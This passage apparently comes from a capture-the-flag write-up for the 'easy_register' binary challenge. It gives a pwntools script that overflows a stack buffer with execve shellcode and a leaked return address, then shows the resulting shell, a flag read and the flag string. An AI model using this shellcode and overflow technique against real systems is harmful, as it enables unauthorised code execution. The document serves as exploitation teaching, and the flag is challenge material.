```python
eip_offset = 88
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
info("Length of shellcode: {}".format(len(shellcode)))
padding1 = "0" * (eip_offset - len(shellcode))

payload = flat(
    shellcode,
    padding1,
    p64(leak),
    )
info("Length of payload: {}".format(len(payload)))

with open('payload', 'wb') as f:
    f.write(payload)

p.recvuntil("Hacker name > ")
p.sendline(payload)
p.interactive()
```

**Output:**

```bash
root@f506b482cbb4:/pwn/ctf# python2 solve.py REMOTE easyregister.ctf.intigriti.io 7777
[+] Opening connection to easyregister.ctf.intigriti.io on port 7777: Done
[*] Leaked address: 0x7ffc06948040
[*] Length of shellcode: 24
[*] Length of payload: 96
[*] Switching to interactive mode

[+] Registration completed. Enjoy!
[+] Exiting.
$ ls
bin
dev
easy_register
etc
flag
lib
lib64
usr
$ cat flag
1337UP{Y0u_ju5t_r3g15t3r3d_f0r_50m3_p01nt5}
```

Flag: **1337UP{Y0u_ju5t_r3g15t3r3d_f0r_50m3_p01nt5}**

---

